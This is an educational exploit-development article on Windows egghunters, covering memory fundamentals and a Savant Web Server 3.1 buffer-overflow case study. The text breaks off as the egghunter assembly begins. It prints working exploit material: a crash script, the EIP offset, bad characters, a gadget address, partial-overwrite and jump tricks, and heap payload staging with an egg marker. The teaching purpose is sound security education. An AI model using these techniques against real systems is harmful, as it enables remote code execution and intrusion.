







## Introduction

One of the most frustrating moments in Windows exploit development arrives after you have already done the hard work: you have identified a memory corruption vulnerability, located a reliable crash, confirmed EIP control, and cleared all the bad characters. Then you measure the space available for shellcode and discover the number — 80 bytes, maybe 100, perhaps 250 — is nowhere near enough for a functional payload.

A reverse shell shellcode, even in its most compressed form, typically requires between 300 and 500 bytes. An encoder stub adds overhead on top of that. Many real-world vulnerabilities place you in a buffer that is structurally small: a header field, a protocol argument, a path component, a fixed-size stack frame. The vulnerability is real. Control is real. The space is not.

This is the problem egghunters solve.

An egghunter is a small, self-contained piece of shellcode — typically between 32 and 70 bytes — whose only purpose is to traverse the entire virtual address space of the running process, locate a recognizable sequence of bytes placed there by the attacker as a marker (the "egg"), and transfer execution to the payload that follows. The egghunter itself fits in the restricted buffer. The real shellcode lives somewhere else in process memory entirely — placed there through a second buffer, a different protocol field, a heap allocation triggered by prior interaction with the target. The egghunter bridges the gap.

This article explores every layer of that technique: the Windows memory model that makes traversal possible, the system call mechanism that makes it safe, the assembly internals that make it compact, the egg marker design that makes it reliable, and the structured exception handling mechanism that makes it portable. By the end, the egghunter will have no magic in it — only understandable engineering.

---

## Historical Background

The term "egghunter" entered mainstream exploit research with Skape's 2004 paper *"Safely Searching Process Virtual Address Space"*, which remains one of the most referenced documents in the field. Skape formalized what practitioners had been doing informally: using a small search stub to locate a large payload staged elsewhere in process memory.

The core insight Skape articulated was the system call interface as a safe memory probe. The obvious approach to searching process memory — reading every address and checking for a match — will crash the process immediately when it touches an unmapped or inaccessible page. An access violation with no handler terminates the application. The egghunter needs to probe memory without knowing in advance which pages are valid. The operating system kernel already knows which pages are valid, because it is the entity that manages the page tables. Therefore, if the egghunter can ask the kernel to perform the dangerous dereference and report back the result, it can continue searching without crashing.

That is precisely what system calls provide: a controlled transition from user space to kernel mode, where the kernel performs the requested operation and returns a status code. If the memory is inaccessible, the kernel returns `STATUS_ACCESS_VIOLATION` (`0xC0000005`). If it is accessible, the kernel returns success. The egghunter reads that status code and either advances to the next page or begins checking for the egg.

Skape documented three primary approaches: an egghunter based on the `access()` POSIX compatibility call on Linux, one based on `sigaction()` on Linux, and one for Windows using `NtDisplayString`. A Windows variant using `NtAccessCheckAndAuditAlarm` became the most commonly deployed, and the 32-byte implementation that emerged from that research is still the foundation of egghunters deployed today — with modifications for changes in the Windows system call numbering table that have accumulated across OS versions.

The SEH-based variant, which installs a custom Structured Exception Handler instead of issuing a system call, was developed as an alternative that avoids the system call number dependency entirely. Both approaches remain relevant. The syscall version is smaller. The SEH version is more portable across OS versions.

---

## Windows Virtual Memory Fundamentals

Before understanding how an egghunter traverses memory, it is necessary to understand what it is traversing.

### The Virtual Address Space

Every process on a 32-bit Windows system has its own private virtual address space (VAS) of 4 gigabytes, spanning addresses from `0x00000000` to `0xFFFFFFFF`. This address space is divided between user mode and kernel mode: the lower 2 GB (by default) are accessible to user-mode code, and the upper 2 GB are reserved for the kernel. Some configurations expand user space to 3 GB using the `/3GB` boot option and the `LARGEADDRESSAWARE` PE flag.

The critical word is *virtual*. These addresses do not correspond directly to physical RAM. Each process sees the same address space layout from its own perspective, isolated from every other process. Two processes can both have a pointer to address `0x00401000` and be pointing to completely different physical memory, or to the same physical memory, depending on whether their pages are shared. The Memory Management Unit (MMU) in hardware performs the translation from virtual to physical addresses using page tables maintained by the kernel.

```
Virtual Address Space (32-bit, 2GB/2GB split)
┌─────────────────────────────────────┐ 0xFFFFFFFF
│                                     │
│      Kernel Space (2 GB)            │
│   [inaccessible from user mode]     │
│                                     │
├─────────────────────────────────────┤ 0x80000000
│                                     │
│      User Space (2 GB)              │
│                                     │
│  ┌──────────────────────────────┐   │
│  │  Stack (grows downward)      │   │
│  ├──────────────────────────────┤   │
│  │  (unmapped gap)              │   │
│  ├──────────────────────────────┤   │
│  │  Heap (dynamic allocation)   │   │
│  ├──────────────────────────────┤   │
│  │  Modules (DLLs, ntdll, etc)  │   │
│  ├──────────────────────────────┤   │
│  │  Main executable image       │   │
│  ├──────────────────────────────┤   │
│  │  (null page, reserved)       │   │
│  └──────────────────────────────┘   │
│                                     │
└─────────────────────────────────────┘ 0x00000000
```



### Memory Pages

The virtual address space is not managed byte-by-byte. It is managed in pages. On x86 Windows, the default page size is **4096 bytes** (0x1000). A page is the smallest unit of memory the kernel can individually map, protect, or unmap. Each page has its own protection attributes: `PAGE_READONLY`, `PAGE_READWRITE`, `PAGE_EXECUTE_READ`, `PAGE_EXECUTE_READWRITE`, `PAGE_NOACCESS`, and so on.

When a thread attempts to read or write an address that falls in a page with incompatible protection, or that falls in an address range with no page backing it at all (unmapped), the processor raises an access violation exception (`#PF` — Page Fault). The kernel's fault handler determines whether the fault was legitimate (e.g., a guard page that should be committed, or a copy-on-write event) or fatal (true access violation). In the latter case, it dispatches the exception to user-mode exception handlers via the Structured Exception Handling mechanism.

This is the danger that egghunters navigate. The process virtual address space is not a contiguous block of readable memory. It is a sparse collection of mapped regions — the stack, the heap, the loaded modules, memory-mapped files, and dozens of other regions — separated by vast unmapped gaps. An egghunter that naively increments through addresses without checking page validity will immediately fault on the first unmapped gap and terminate the process.

Page granularity is the design constraint that shapes every egghunter's page-skipping logic. Rather than checking each unmapped byte sequentially, an efficient egghunter detects that a page is inaccessible and jumps to the start of the next 4096-byte aligned page. This is why the `or dx, 0x0FFF` instruction appears in every syscall-based egghunter: it aligns the current address to the last byte of the current page, and a subsequent `inc edx` crosses the boundary into the next page, ready for validation.

### The Windows Heap Manager

The heap is the region of memory most relevant to egghunter deployment. When a Windows application needs to allocate memory dynamically — to store a received network buffer, parse an HTTP request, or stage incoming data — it uses the heap manager.

The heap manager is a software layer that sits above the low-level virtual memory APIs (`VirtualAlloc`, `VirtualFree`). It acquires large blocks of virtual memory from the kernel and subdivides them into smaller allocations for the application. The principal APIs in user space are `HeapAlloc` and `HeapFree`, which internally invoke `RtlAllocateHeap` and `RtlFreeHeap` in `ntdll.dll`. Every process has a default process heap created at startup; processes may create additional heaps using `HeapCreate`.

The crucial property of heap memory for exploit development is that **heap addresses are not static**. They vary between process runs depending on allocation order, prior heap activity, the randomization introduced by ASLR (when enabled), and the sizes of preceding allocations. An attacker cannot hardcode a heap address into an exploit and expect it to work reliably across executions. This is the fundamental reason egghunters exist: they locate the payload dynamically rather than relying on a fixed address.

When you send a network buffer to a vulnerable application — say, the body of an HTTP request appended after the malformed request line that triggers the overflow — the application's protocol parser allocates heap memory to store it. The allocation succeeds. The data lands somewhere in the heap. Exactly where depends on the heap state at that moment. The egghunter, running in the restricted overflowed buffer on the stack, searches the entire process VAS, finds the egg marker at the start of the heap-resident payload, and jumps there.

---

## Case Study: The Space Problem in Practice

To make these concepts concrete, consider a vulnerability in Savant Web Server 3.1. The application listens on TCP port 8000 and crashes when it receives a GET request with a path component exceeding a certain length — a classic stack buffer overflow triggered by inadequate boundary checking in the request parsing code.

### The Initial Crash

The crash is triggered by a 260-byte filler in the path component of the GET request:

```python
import socket
from struct import pack

server = "10.0.2.15"
port   = 8000
size   = 260

method  = b"GET /"
filler  = b"A" * size
payload = method + filler + b"\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, port))
s.send(payload)
s.recv(1024)
s.close()
```

The application crashes. WinDbg shows EIP overwritten with `41414141`.


 EIP control is confirmed. The next question is where the shellcode lands.

### Stack State at Crash

Examining the stack at the moment of the crash reveals something immediately problematic:

```
0:001> dds @esp L5
00a6ea1c  00414141  Savant+0x14141
00a6ea20  00a6ea74
00a6ea24  0041703c  Savant+0x1703c
00a6ea28  02511438
00a6ea2c  02511438
```

The stack pointer (ESP) points to a value that contains only three bytes of our buffer (`0x00414141`). The null byte at the high byte of this DWORD terminates what would otherwise have been `41414141`. The application is treating the buffer as a null-terminated string internally. This is not the three bytes we want to execute. Following the stack pointer reveals a second address (`esp+4 = 0x00a6ea20`) that itself points to a location containing the complete HTTP request — including the method field followed by our filler.

This architecture of the stack at crash time is telling us two things simultaneously. First, there is almost certainly not enough space immediately at or near ESP for a useful shellcode. Second, the method field of the HTTP request — those initial bytes before the space separator — is also accessible and is earlier in memory than the main filler buffer. Both of these regions are potentially controllable.


### Identifying Bad Characters

Before measuring available space, bad characters must be identified. The application processes the URL path as a string, which means certain byte values will be interpreted as terminators or transformed by the protocol parser. Testing all 255 non-null bytes reveals that the following characters corrupt or terminate the buffer:

```
\x00  — null terminator (terminates C strings)
\x0a  — line feed (HTTP line terminator)
\x0d  — carriage return (HTTP line terminator)
\x20  — space (URL path delimiter)
\x25  — percent sign (URL encoding prefix)
```

These five bytes are unavailable for use in any shellcode


 or gadget addresses that pass through the vulnerable buffer. The null byte is especially relevant: the module addresses for Savant's own binary all begin with `0x00` (addresses in the range `0x00400000–0x00451FFF`), which means we cannot directly write a four-byte return address that starts with a null byte.

### Establishing Precise EIP Control

Binary search through the buffer identifies the exact offset to EIP as 253 bytes. At offset 253, four bytes control EIP precisely:

```python
filler = b"A" * 253
EIP    = b"B" * 4
junk   = b"C" * (260 - 253 - 4)
```

WinDbg confirms `42424242` in EIP. The precision is necessary because the partial overwrite technique


 we will use requires knowing the exact boundary.

### The Null Byte Constraint and Partial Overwrite

Since the only module available (Savant's executable image) has addresses containing null bytes (e.g., `0x00418674`), we cannot write all four bytes of a return address through the buffer — the null byte at position 0 would terminate the string before the remaining three bytes arrived. The application's string-handling logic fills in the null byte automatically: when a three-byte value like `\x86\x74\x41` is written at the EIP offset, the application appends a null byte itself during the string copy, yielding `0x00418674` in EIP. This is partial overwrite — deliberately relying on the null terminator to complete an address.

This technique is only viable when the high byte of the target address is `0x00`


, and when you can reliably anticipate what byte the application will append. In the Savant case, both conditions are satisfied.

### Finding a Suitable Gadget

With the stack at crash time showing `esp+4` pointing into the buffer, the ideal gadget is `POP R32; RET`. Executing this pair pops the first value from the stack (discarding the garbage at `esp+0`) and returns to the address at `esp+4`, which points into our controlled data.

Since we need a register that will hold a valid address (for reasons related to what the instructions in the method field will execute), `POP EAX; RET` is ideal. The opcodes are `\x58\xC3`. Scanning the Savant module:


![s -[1]b — searching for \x58\xC3; found at 0x00418674](../images/sc35-search-58c3.png)


```
0:001> s -[1]b 00400000 00452000 58 C3
0x00418674
```

Address `0x00418674` contains the `POP EAX; RET` sequence. The partial overwrite with three bytes (`\x74\x86\x41`) causes EIP to become `0x00418674` after the null byte is appended.


### Redirecting to the Method Field

After the `POP EAX; RET` executes, EIP lands in the method field area of the HTTP request — the few bytes before the space separator in `GET /`. Those bytes are controllable. An unconditional short jump (`\xEB\xNN`) here would redirect to the main A-buffer — but this fails: the `\xEB` byte happens to be mangled in this memory region due to how the server copies the method string into its internal buffer.

The solution is a conditional jump constructed to be unconditionally taken. XORing ECX with itself (`XOR ECX, ECX`) always produces zero. Testing zero against itself (`TEST ECX, ECX`) always sets the zero flag. A jump-if-zero (`JZ rel`) is therefore always taken:

```
xor ecx, ecx     ; 31 C9  — ECX = 0, ZF set
test ecx, ecx    ; 85 C9  — ZF confirmed set
jz  0x17         ; 0F 84 11 00 00 00  — jump forward 0x11 bytes
```

The `JZ rel32` encoding contains four null bytes (`0F 84 11 00 00 00`). Those null bytes terminate the buffer before delivery. The solution: send only the first three bytes of the instruction (`0F 84 11`). Because the application zero-fills the surrounding memory buffer before copying data into it, the trailing three null bytes of the `JZ rel32` encoding are already present in memory at the destination. The three bytes sent plus the three zero bytes already in memory form the complete instruction.


This is a subtle but important technique: exploiting the zero-initialized state of a destination buffer to supply bytes that cannot be sent explicitly.

After the conditional jump executes, EIP lands at the beginning of the A-buffer — 253 bytes of controlled space.

### Measuring Available Space

With execution redirected to the A-buffer, the question of available space becomes critical. WinDbg's arithmetic determines the usable range:

```
0:001> ? 0506eb7f + 0n11 - @eip
Evaluate expression: 251 = 000000fb
```

Accounting for 11 bytes that become corrupted near the end of the buffer (due to how the null terminator and HTTP framing interact with the parser's internal copy logic), the actual usable space is **251 bytes**. A typical reverse shell Meterpreter payload runs 400


–500 bytes. The gap between available space and required space is roughly 2:1.

This is the point at which the egghunter becomes the only viable path forward.

---

## Why Egghunters Exist: The Two-Stage Model

The egghunter technique is fundamentally a staging architecture. Instead of placing shellcode directly at the point of execution, the attack is split into two independent buffers:

- **Stage 1 (egghunter):** A small stub, 32–70 bytes, placed in the restricted controlled buffer. Its only job is to locate Stage 2 in memory and jump to it.
- **Stage 2 (payload):** The actual shellcode, any size, placed in a *different* location in process memory — one that is accessible to the process but not the site of the overflow.

The critical insight is that many network applications store received data in multiple places simultaneously. The overflowed buffer might be a path field in an HTTP request — 260 bytes. But the same HTTP request may also contain other fields (headers, body, additional data after the HTTP terminator) that are stored in heap allocations. If data can be placed in the heap region through some mechanism — whether a separate field in the same request, a prior request, or a different protocol interaction — and if that data persists in process memory until the overflow triggers, then the egghunter can find it.

In the Savant case, appending additional data after the HTTP double-CRLF terminator (`\r\n\r\n`) causes the application to store that data in a heap allocation before parsing the URL. The heap allocation is confirmed by WinDbg:

```
0:001> !address 023b6c1e
    Mapping PEB regions...
    Usage:          Heap
    Base Address:   023b0000
    End Address:    023bf000
    Region Size:    0000f000
    State:          00001000  MEM_COMMIT
    Protect:        00000004  PAGE_READWRITE
    Type:           00020000  MEM_PRIVATE
    More info:      heap owning the address: !heap 0x23b0000
```

The data at that address — prefixed with the 8-byte egg marker `w00tw00t` and followed by 400 bytes of shellcode — is confirmed present. Its exact address changes between runs (that is the heap


's nature), but the egghunter does not need to know the address. It will find it.



---

## Egg Marker Design

The egg marker is not arbitrary. Its design is a balance of three competing requirements: **uniqueness**, **compactness**, and **byte-safety**.

**Uniqueness** means the marker must not naturally appear anywhere else in the process memory. If the egg marker is a common sequence like `\x90\x90\x90\x90`, the egghunter will false-positive on NOP sleds in other code regions and jump to the wrong location. The marker must be specific enough that its occurrence in process memory is essentially impossible unless the attacker intentionally placed it.

**Compactness** means the marker must be representable efficiently in the egghunter code itself. The egghunter loads the marker into a register for comparison; a 4-byte value fits directly in a 32-bit register with a single `MOV EAX, imm32` instruction. The marker is therefore always 4 bytes, repeated twice — the doubled structure `w00tw00t` is two consecutive 4-byte values, both equal to the egg signature.

**Byte-safety** means the marker must not contain bytes that will be corrupted by the transport mechanism. If the application strips `\x00` bytes, a marker containing null bytes will never reach the heap intact.

The classic egg `w00t` satisfies all three requirements:
- Hex representation: `0x77 0x30 0x30 0x74`
- As a little-endian 32-bit DWORD: `0x74303077`
- No null bytes, no control characters
- Appears in printable ASCII as the string `w00t`, which is not a common occurrence in binary code or typical heap data

The doubling is essential for a different reason: it prevents false positives in the egghunter's own code. The egghunter itself contains the egg value (in the `MOV EAX, 0x74303077` instruction). If the egg were only 4 bytes, the egghunter would find itself immediately when it scanned its own region of memory and jumped to the instruction after the first match — which is not the payload. The doubled marker means a match requires two consecutive equal DWORDs, and while the single-occurrence value appears in the egghunter code, the double occurrence does not (because it would only be there if the egghunter code itself started with `w00tw00t`, which it does not).

```
Payload Layout in Memory (Heap Region)
┌──────────────────────────────────────────┐
│  "w00t" (4 bytes) │ "w00t" (4 bytes)     │  ← Egg marker: 8 bytes total
├──────────────────────────────────────────┤
│  Shellcode (400+ bytes)                  │
│  [reverse shell / meterpreter payload]   │
└──────────────────────────────────────────┘
  ↑
  EDI points here after successful egg match
  (egghunter jumps to: jmp edi)
```

---

## Building Egghunters with the Keystone Engine

Writing egghunter shellcode directly as hex opcodes is error-prone. A single transposed nibble produces invalid code. The Keystone assembler engine provides a Pythonic interface to the NASM-compatible x86 assembler, enabling shellcode to be written as readable assembly and compiled programmatically into opcodes.

The workflow is:

```python
from keystone import *

CODE = (
    "xor eax, eax ;"
    "add eax, ecx ;"
    "push eax     ;"
    "pop esi      ;"
)

ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)

instructions = ""
for dec in encoding:
    instructions += "\\x{0:02x}".format(int(dec))

print(f"Opcodes: {instructions}")
```

Output: `\x31\xc0\x01\xc8\x50\x5e`

The resulting opcodes can be verified against `nasm_shell` in the Metasploit Framework or any disassembler. This cross-validation step is not optional — Keystone and NASM may make different encoding choices for certain instructions, particularly for jump offsets and immediate operands. Verifying the encoding in a second tool before deploying shellcode prevents silent bugs.

The Keystone approach has an additional benefit: when egghunter constants need to change


 (system call number, egg value, branch offsets), the change is made in readable assembly rather than hex editing a blob. The script regenerates clean opcodes.

---

## The Syscall-Based Egghunter

### Theory: Using the Kernel as a Safe Memory Probe

The syscall-based egghunter's core mechanism is elegant: rather than dereferencing a memory address directly (which will crash on invalid pages), the egghunter asks the operating system to perform the access on its behalf. If the kernel reports an access violation, the page is invalid. If the kernel reports success, the page is accessible and the egghunter can safely read from it.

On Windows, user-mode code crosses into kernel mode through system calls. The historical x86 mechanism (predating `SYSENTER` prevalence) is the software interrupt `INT 0x2E`. When executed, this instruction:

1. Saves CPU state (EIP, EFLAGS, ESP, CS, SS)
2. Switches to kernel-mode stack
3. Looks up the system call handler from the System Service Descriptor Table (SSDT) using the index in EAX
4. Executes the handler
5. Returns to user mode, with the return value in EAX

The system call chosen for the egghunter is `NtAccessCheckAndAuditAlarm`. This function validates whether an access request should be permitted, and in doing so, it must dereference the memory address passed in EDX. If the address is unmapped or protected


, the kernel intercepts the access violation and returns `STATUS_ACCESS_VIOLATION` (`0xC0000005`) rather than crashing the process.

The lower byte of `0xC0000005` is `0x05`. The egghunter checks `AL` (the low byte of EAX) against `0x05`, not the full 32-bit EAX value. This avoids a null byte in the comparison: a `CMP EAX, 0xC0000005` instruction would encode the constant with null bytes. `CMP AL, 0x05` encodes as `\x3C\x05` — two bytes, no nulls.

### Complete Egghunter Assembly


```asm
; ============================================================
; Syscall-Based Egghunter
; Target: Windows x86 (32-bit)
